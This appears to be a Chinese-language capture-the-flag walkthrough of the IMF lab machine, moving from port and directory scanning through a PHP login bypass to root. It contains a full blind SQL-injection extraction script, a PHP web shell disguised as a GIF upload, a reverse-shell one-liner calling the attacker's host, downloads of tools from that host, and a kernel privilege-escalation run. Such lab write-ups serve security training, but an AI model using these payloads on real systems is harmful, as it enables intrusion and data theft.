


# 端口扫描
### 全端口扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo nmap -sT -sV -p- --min-rate 10000 192.168.2.128 -oA nmap/ports
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 00:18 EDT
Nmap scan report for 192.168.2.128
Host is up (0.00025s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:50:57:B6 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.59 seconds

~~~
### 默认脚本扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo nmap -sT -sC -p80 192.168.2.128 -oA nmap/sC
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 00:19 EDT
Nmap scan report for 192.168.2.128
Host is up (0.00024s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-title: IMF - Homepage
MAC Address: 00:0C:29:50:57:B6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 5.26 seconds

~~~
### 漏洞脚本扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo nmap -sT --script=vuln -p80 192.168.2.128 -oA nmap/vuln
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 00:19 EDT
Nmap scan report for 192.168.2.128
Host is up (0.00036s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.2.128
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.2.128:80/contact.php
|     Form id: emailaddress
|_    Form action: 
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 00:0C:29:50:57:B6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 320.75 seconds

~~~
### UDP扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo nmap -sU --top-ports 20 192.168.2.128 -oA nmap/UDP
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-30 00:42 EDT
Nmap scan report for 192.168.2.128
Host is up (0.0015s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown
MAC Address: 00:0C:29:50:57:B6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds
~~~

# 80(web)
## web信息
~~~
┌──(kali㉿kali)-[~/imf]
└─$ whatweb http://192.168.2.128
http://192.168.2.128 [200 OK] Apache[2.4.18], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[192.168.2.128], JQuery[1.10.2], Modernizr[2.6.2.min], Script, Title[IMF - Homepage], X-UA-Compatible[IE=edge]
~~~

## 目录扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo gobuster dir -u 'http://192.168.2.128' -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.2.128/images/]
/css                  (Status: 301) [Size: 312] [--> http://192.168.2.128/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.2.128/js/]
/fonts                (Status: 301) [Size: 314] [--> http://192.168.2.128/fonts/]
/less                 (Status: 301) [Size: 313] [--> http://192.168.2.128/less/]
/server-status        (Status: 403) [Size: 301]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

~~~
~~~
┌──(kali㉿kali)-[~/imf]
└─$ dirb http://192.168.2.128

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct 30 00:29:46 2024
URL_BASE: http://192.168.2.128/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.2.128/ ----
==> DIRECTORY: http://192.168.2.128/css/                                                                           
==> DIRECTORY: http://192.168.2.128/fonts/                                                                         
==> DIRECTORY: http://192.168.2.128/images/                                                                        
+ http://192.168.2.128/index.php (CODE:200|SIZE:4797)                                                              
==> DIRECTORY: http://192.168.2.128/js/                                                                            
+ http://192.168.2.128/server-status (CODE:403|SIZE:301)                                                           
---- Entering directory: http://192.168.2.128/css/ ----
---- Entering directory: http://192.168.2.128/fonts/ ----
---- Entering directory: http://192.168.2.128/images/ ----
---- Entering directory: http://192.168.2.128/js/ ----
==> DIRECTORY: http://192.168.2.128/js/vendor/                                     ---- Entering directory: http://192.168.2.128/js/vendor/ ----
-----------------
END_TIME: Wed Oct 30 00:29:59 2024
DOWNLOADED: 27672 - FOUND: 2

~~~
## 文件扫描
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo gobuster dir -u 'http://192.168.2.128' -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x html,php,txt,zip,cap,rar
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,zip,cap,rar
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 293]
/.php                 (Status: 403) [Size: 292]
/index.php            (Status: 200) [Size: 4797]
/images               (Status: 301) [Size: 315] [--> http://192.168.2.128/images/]
/contact.php          (Status: 200) [Size: 8649]
/projects.php         (Status: 200) [Size: 6574]
/css                  (Status: 301) [Size: 312] [--> http://192.168.2.128/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.2.128/js/]
/fonts                (Status: 301) [Size: 314] [--> http://192.168.2.128/fonts/]
/less                 (Status: 301) [Size: 313] [--> http://192.168.2.128/less/]
/.html                (Status: 403) [Size: 293]
/.php                 (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 301]
Progress: 1543920 / 1543927 (100.00%)
===============================================================
Finished
===============================================================

~~~
现在我们拥有
~~~
/index.php            (Status: 200) [Size: 4797]
/images               (Status: 301) [Size: 315] [--> http://192.168.2.128/images/]
/contact.php          (Status: 200) [Size: 8649]
/projects.php         (Status: 200) [Size: 6574]
/css                  (Status: 301) [Size: 312] [--> http://192.168.2.128/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.2.128/js/]
/fonts                (Status: 301) [Size: 314] [--> http://192.168.2.128/fonts/]
/less                 (Status: 301) [Size: 313] [--> http://192.168.2.128/less/]
/server-status        (Status: 403) [Size: 301]
~~~
### wfuzz
查看有没有传参
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 4796   http://192.168.2.128/index.php?FUZZ=lizi
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.2.128/index.php?FUZZ=lizi
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

Total time: 0
Processed Requests: 220560
Filtered Requests: 220560
Requests/sec.: 0

~~~

~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 6573   http://192.168.2.128/projects.php?FUZZ=lizi
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.2.128/projects.php?FUZZ=lizi
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

Total time: 0
Processed Requests: 220560
Filtered Requests: 220560
Requests/sec.: 0

~~~

~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 8648   http://192.168.2.128/contact.php?FUZZ=lizi                                                                                                
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.2.128/contact.php?FUZZ=lizi
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                              
=====================================================================

Total time: 0
Processed Requests: 220560
Filtered Requests: 220560
Requests/sec.: 0
~~~
似乎没有什么信息，做一下信息搜集吧
从contact.php可以得到三个可疑的用户名
~~~
rmichaels
akeith
estone
~~~

自己再构造一下字典
~~~
┌──(kali㉿kali)-[~/imf]                                   
└─$ cewl -m 5 -d 3 http://192.168.2.128/index.php -w index_wordlist.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/imf]
└─$ cewl -m 5 -d 3 http://192.168.2.128/projects.php -w projects_wordlist.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/imf]
└─$ cewl -m 5 -d 3 http://192.168.2.128/contact.php -w contact_wordlist.txt
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

┌──(kali㉿kali)-[~/imf]
└─$ ls
contact_wordlist.txt  index_wordlist.txt  nmap  projects_wordlist.txt
┌──(kali㉿kali)-[~/imf]
└─$ cat *.txt > final.txt                                                    

┌──(kali㉿kali)-[~/imf]
└─$ vim users

┌──(kali㉿kali)-[~/imf]
└─$ cat users            
rmichaels
akeith
estone

┌──(kali㉿kali)-[~/imf]
└─$ cat users >> final.txt 

~~~
这样我们得到了一个最终的字典
再尝试一下爆破，还是没有任何信息
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo gobuster dir -u 'http://192.168.2.128' -w final.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                final.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 318 / 319 (99.69%)
===============================================================
Finished
===============================================================

┌──(kali㉿kali)-[~/imf]
└─$ sudo gobuster dir -u 'http://192.168.2.128' -w final.txt -x txt,php,html,jsp,rar,zip,cap

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.128
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                final.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html,jsp,rar,zip,cap
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 2544 / 2552 (99.69%)
===============================================================
Finished
===============================================================

~~~
试一下nikto
~~~
┌──(kali㉿kali)-[~/imf]
└─$ nikto --url  http://192.168.2.128
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.2.128
+ Target Hostname:    192.168.2.128
+ Target Port:        80
+ Start Time:         2024-10-30 01:10:03 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8102 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2024-10-30 01:10:15 (GMT-4) (12 seconds)
---------------------------------------------------------------------------
~~~

还是没有什么信息
查看一下源代码发现了之前漏掉的关键线索

~~~
┌──(kali㉿kali)-[~/imf]
└─$ echo "YWxsdGhlZmlsZXM=" | base64 -d
allthefiles 
~~~
解密得到 flag1\{allthefiles\}

这里的文件名看起来似乎也是base64
~~~
┌──(kali㉿kali)-[~/imf]
└─$ echo "ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ==" | base64 -d  

flag2\{aW1mYWRtaW5pc3RyYXRvcg==\}
~~~
得到 `flag2{aW1mYWRtaW5pc3RyYXRvcg==}`
再解密得到
~~~
┌──(kali㉿kali)-[~/imf]
└─$ echo "aW1mYWRtaW5pc3RyYXRvcg==" | base64 -d              
imfadministrator
~~~
可能是一个目录

查看源码，roger说他把密码硬编码了，应该是直接把密码写死在代码里

先用sqlmap跑一下吧

看来应该不存在sql注入
爆破一下目录
~~~
┌──(kali㉿kali)-[~/imf]
└─$ sudo gobuster dir -u 'http://192.168.2.128/imfadministrator/' -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
[sudo] password for kali: 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.2.128/imfadministrator/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 332] [--> http://192.168.2.128/imfadministrator/images/]
/uploads              (Status: 301) [Size: 333] [--> http://192.168.2.128/imfadministrator/uploads/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

~~~
都无法直接访问，还是尝试登录吧，用户名我们已经有了，硬编码会不会因为php的解析造成逻辑漏洞呢
传入一个数组居然就绕过了

解密得到 flag3\{continueTOcms\}
~~~
┌──(kali㉿kali)-[~/imf]
└─$ echo "Y29udGludWVUT2Ntcw==" | base64 -d    
continueTOcms   
~~~
访问，似乎列出了一些名单，get参数可以测试一下

发现有sql报错，试一下sql注入
可以自己准备一些常见sql的字典，可以在不使用sqlmap的情况下确定是否存在sql注入(这里需要url编码)

发现了注入点，手注试试！
没有回显，还是要写脚本

可以爆出指定列的所有值
~~~python
import requests
import string

URL = 'http://192.168.2.128/imfadministrator/cms.php'
COOKIE = {
    'PHPSESSID': 'vrq8cslt0utmndeej8oi095cu4'
}

# 定义字符集
characters = string.ascii_lowercase + "_" + string.digits + ","

def get_databases():
    dbs = ''
    for position in range(1, 200):
        found_char = False
        for char in characters:
            sqli_url = URL + f"?pagename=home' or substring((select group_concat(schema_name) from information_schema.schemata),{position},1)='{char}"
            r = requests.get(sqli_url, cookies=COOKIE)

            if r.status_code != 200:
                print("请求失败，状态码:", r.status_code)
                return None

            if 'Welcom' not in r.content.decode('utf-8'):
                dbs += char
                found_char = True
                break
        if not found_char:
            break
    return dbs

def get_tables(selected_dbs):
    table = ''
    for position in range(1, 200):
        found_char = False
        for char in characters:
            sqli_url = URL + f"?pagename=home' or substring((select group_concat(table_name) from information_schema.tables where table_schema='{selected_dbs}'),{position},1)='{char}"
            r = requests.get(sqli_url, cookies=COOKIE)

            if r.status_code != 200:
                print("请求失败，状态码:", r.status_code)
                return None
                
            if 'Welcom' not in r.content.decode('utf-8'):
                table += char
                found_char = True
                break
        if not found_char:
            break
    return table

def get_columns(selected_dbs, selected_table):
    columns = ''
    for position in range(1, 200):
        found_char = False
        for char in characters:
            sqli_url = URL + f"?pagename=home' or substring((select group_concat(column_name) from information_schema.columns where table_schema='{selected_dbs}' and table_name='{selected_table}'),{position},1)='{char}"
            r = requests.get(sqli_url, cookies=COOKIE)

            if r.status_code != 200:
                print("请求失败，状态码:", r.status_code)
                return None
                
            if 'Welcom' not in r.content.decode('utf-8'):
                columns += char
                found_char = True
                break
        if not found_char:
            break
    return columns

def get_column_values(selected_dbs, selected_table, selected_column):
    values = []
    for position in range(1, 200):
        found_value = False
        for char in characters:
            sqli_url = URL + f"?pagename=home' or substring((select group_concat({selected_column}) from {selected_table}),{position},1)='{char}"
            r = requests.get(sqli_url, cookies=COOKIE)

            if r.status_code != 200:
                print("请求失败，状态码:", r.status_code)
                return None
            
            if 'Welcom' not in r.content.decode('utf-8'):
                if position == 1:
                    values.append('')
                values[-1] += char
                found_value = True
                break
        if not found_value:
            break
    return values

def main():
    print("开始获取数据库...")
    dbs = get_databases()
    if dbs is None:
        print("无法获取数据库，请检查目标站点。")
        return
    
    print(f'数据库有: {dbs}')
    
    selected_dbs = input('输入数据库名称: ')
    while selected_dbs not in dbs.split(','):
        print("无效的数据库名称，请重新输入。")
        selected_dbs = input('输入数据库名称: ')

    print("开始获取表...")
    table = get_tables(selected_dbs)
    if table is None:
        print("无法获取表，请检查数据库名称。")
        return

    print(f'表有: {table}')
    
    selected_table = input('想要查询的表是: ')
    while selected_table not in table.split(','):
        print("无效的表名称，请重新输入。")
        selected_table = input('想要查询的表是: ')

    print("开始获取列...")
    columns = get_columns(selected_dbs, selected_table)
    if columns is None:
        print("无法获取列，请检查表名称。")
        return

    print(f'列有: {columns}')
    
    selected_column = input('想要查询的列是: ')
    while selected_column not in columns.split(','):
        print("无效的列名称，请重新输入。")
        selected_column = input('想要查询的列是: ')

    print("开始获取列的值...")
    values = get_column_values(selected_dbs, selected_table, selected_column)
    if values is None:
        print("无法获取列值，请检查列名称。")
        return

    print(f'列 {selected_column} 的值有: {values}')

if __name__ == "__main__":
    main()

~~~
有一个隐藏的page
~~~
PS C:\Users\lizis\Desktop\python> & C:/python3.12/python.exe c:/Users/lizis/Desktop/python/sqli.py
开始获取数据库...
数据库有: information_schema,admin,mysql,performance_schema,sys
输入数据库名称: admin
开始获取表...
表有: pages
想要查询的表是: pages
开始获取列...
列有: id,pagename,pagedata
想要查询的列是: pagename
开始获取列的值...
列 pagename 的值有: ['disavowlist,home,tutorials-incomplete,upload']
PS C:\Users\lizis\Desktop\python>
~~~

有个二维码，扫一下咯
在kali中可以安装zbar-tools来扫描二维码
~~~
┌──(kali㉿kali)-[~/imf]
└─$ zbarimg whiteboard.jpg 
QR-Code:flag4\{dXBsb2Fkcjk0Mi5waHA=\}
scanned 1 barcode symbols from 1 images in 0.04 seconds
~~~
解码一下~ flag4\{uploadr942.php\}
似乎可以上传文件捏

构造一个简单的木马
~~~
┌──(kali㉿kali)-[~/imf]
└─$ cat shell.php 
<?php system($_GET[cmd]);?>
~~~

似乎禁用了system函数，试一下反引号，似乎不可以直接用

最后构造出如下payload

~~~request
POST /imfadministrator/uploadr942.php HTTP/1.1

Host: 192.168.2.128

Content-Length: 322

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Origin: http://192.168.2.128

Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynhRlxo8NmtoFVAkp

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.2.128/imfadministrator/uploadr942.php

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

------WebKitFormBoundarynhRlxo8NmtoFVAkp

Content-Disposition: form-data; name="file"; filename="cmd.gif"

Content-Type: image/gif

GIF8;
<?php
$c=$_GET['cmd'];
echo `$c`;
?>
------WebKitFormBoundarynhRlxo8NmtoFVAkp

Content-Disposition: form-data; name="submit"

Upload

------WebKitFormBoundarynhRlxo8NmtoFVAkp--

~~~

~~~responce
HTTP/1.1 200 OK

Date: Sat, 02 Nov 2024 13:00:06 GMT

Server: Apache/2.4.18 (Ubuntu)

Vary: Accept-Encoding

Content-Length: 449

Keep-Alive: timeout=5, max=100

Connection: Keep-Alive

Content-Type: text/html; charset=UTF-8

<html>
<head>
<title>File Uploader</title>
</head>
<body>
<h1>Intelligence Upload Form</h1> 
File successfully uploaded.
<!-- 3875fd0c344b --><form id="Upload" action="" enctype="multipart/form-data" method="post">
	
 
		<label for="file">File to upload:</label> 
		<input id="file" type="file" name="file"> 
	
 
                 
    
 
    	<input id="submit" type="submit" name="submit" value="Upload"> 
    
 
</form>

</body>
</html>

~~~
访问给出的地址

可以RCE了，尝试反弹一个shell回来
~~~
php -r '$sock=fsockopen("192.168.2.130",443);shell_exec("sh <&3 >&3 2>&3");'
~~~
记得进行url编码
~~~
php%20-r%20'%24sock%3Dfsockopen(%22192.168.2.130%22%2C443)%3Bshell_exec(%22sh%20%3C%263%20%3E%263%202%3E%263%22)%3B'
~~~

终于我们拿到了shell

完善一下交互性

# 提权
~~~
www-data@imf:/var/www/html/imfadministrator/uploads$ ls
ls
3875fd0c344b.gif  flag5_abc123def.txt
www-data@imf:/var/www/html/imfadministrator/uploads$ cat flag5_abc123def.txt
cat flag5_abc123def.txt
flag5\{YWdlbnRzZXJ2aWNlcw==\}
~~~
我们得到了第五个flag
~~~
┌──(kali㉿kali)-[~/imf]
└─$ echo "YWdlbnRzZXJ2aWNlcw==" | base64 -d
agentservices  
~~~
flag5\{agentservices\}
搜索一下web的信息
~~~
www-data@imf:/var/www/html/imfadministrator$ cat cms.php
cat cms.php
<?php error_reporting(E_ALL); ini_set('display_errors', 1); session_start(); ?><html>
<head>
<title>IMF CMS</title>
</head>
<body>
<h1>IMF CMS</h1>
<?php 
if(isset($_SESSION['admin_logged_on']) && $_SESSION['admin_logged_on'] == 'that is affirmative sir') {
?>
Menu: 
<a href='cms.php?pagename=home'>Home</a> | 
<a href='cms.php?pagename=upload'>Upload Report</a> | 
<a href='cms.php?pagename=disavowlist'>Disavowed list</a> | 
Logout
  
<?php
        $db_user = 'admin';
        $db_pass = '3298fj8323j80df!49';
        $db_name = 'admin';
        $link = mysqli_connect('localhost',$db_user,$db_pass,$db_name);

        $pagename = isset($_GET['pagename'])?$_GET['pagename']:'home';
        $pagename = str_replace('--', '', $pagename);

        $query = "SELECT `pagedata` FROM `pages` WHERE `pagename` = '".$pagename."'";
        $result = mysqli_query($link, $query);

        $page = mysqli_fetch_row($result);
        print $page[0];
} else {
        print "Please login <a href='index.php'>Here</a>";
}
?>
</body>
</html>

~~~
有数据库用户的凭据，但是没什么用
试一下内核提权吧
~~~
www-data@imf:/tmp$ wget http://192.168.2.130:80/linpeas.sh 
~~~

尝试一下
~~~
                                                          
┌──(kali㉿kali)-[~/imf]
└─$ searchsploit -m 45010       
  Exploit: Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/45010
     Path: /usr/share/exploitdb/exploits/linux/local/45010.c
    Codes: CVE-2017-16995
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/imf/45010.c
~~~
运气比较好，一次成功了
~~~
www-data@imf:/tmp$ wget http://192.168.2.130:80/45010.c                                                              
wget http://192.168.2.130:80/45010.c
--2024-11-02 09:36:58--  http://192.168.2.130/45010.c
Connecting to 192.168.2.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-c]
Saving to: '45010.c'

45010.c             100%[===================>]  12.87K  --.-KB/s    in 0s      

2024-11-02 09:36:58 (166 MB/s) - '45010.c' saved [13176/13176]

www-data@imf:/tmp$ gcc 45010.c -o 45010
gcc 45010.c -o 45010
www-data@imf:/tmp$ chmod +x 45010
chmod +x 45010
www-data@imf:/tmp$ ./45010
./45010
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035675f00
[*] Leaking sock struct from ffff88003761da40
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880007c10000
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff880007c10000
[*] credentials patched, launching shell...
# whoami
whoami
root
~~~
定妆照 flag6\{Gh0stProt0c0ls\}

